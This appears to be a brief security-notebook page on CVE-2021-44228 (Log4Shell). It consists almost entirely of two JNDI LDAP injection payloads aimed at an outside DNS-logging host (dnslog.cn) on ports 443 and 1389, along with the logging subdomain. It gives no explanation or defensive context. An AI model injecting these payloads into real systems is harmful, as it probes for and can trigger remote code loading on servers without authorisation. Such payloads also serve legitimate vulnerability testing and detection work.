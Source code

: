 # CVE-2021-44228

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
${jndi:ldap://z601l4.dnslog.cn:443/o=tomcat}

${jndi:ldap://z601l4.dnslog.cn:1389/o=tomcat}
```

[http://dnslog.cn/](http://dnslog.cn/)

z601l4.dnslog.cn


